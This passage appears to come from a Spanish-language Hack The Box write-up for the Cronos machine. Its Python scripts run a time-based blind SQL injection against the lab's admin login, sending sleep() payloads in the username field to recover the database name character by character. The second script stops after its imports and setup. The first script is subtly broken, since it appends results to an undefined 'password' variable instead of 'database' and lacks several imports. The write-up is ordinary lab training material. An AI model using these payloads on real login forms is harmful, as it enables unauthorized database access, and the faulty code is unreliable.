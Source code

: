 ```python

login_url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdef'

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Database")

    database = ""

    
    for position in range(1, 10):
        for character in s:
            p1.status("Probando con el caracter %c en la posicion %d" % (character, position))
            post_data = {
                'username': "admin' and if(substr(database(),%d,1)='%c',sleep(5),1)-- -" % (position, character),
                'password': 'admin'
            }

            time_start = time.time()
            r = requests.post(login_url, data=post_data)
            time_end = time.time()

            if time_end - time_start > 5:
                password += character
                p2.status(database)
                break

if __name__ == '__main__':

    makeRequest()
```

Aqui vemos que la base de datos se llama 
```bash
 admin 
```
. Buscamos ahora el nombre de la tabla.

```python
#!/usr/bin/python3
#coding: utf-8

import requests
import signal
import pdb
import sys
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

login_url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdef'
```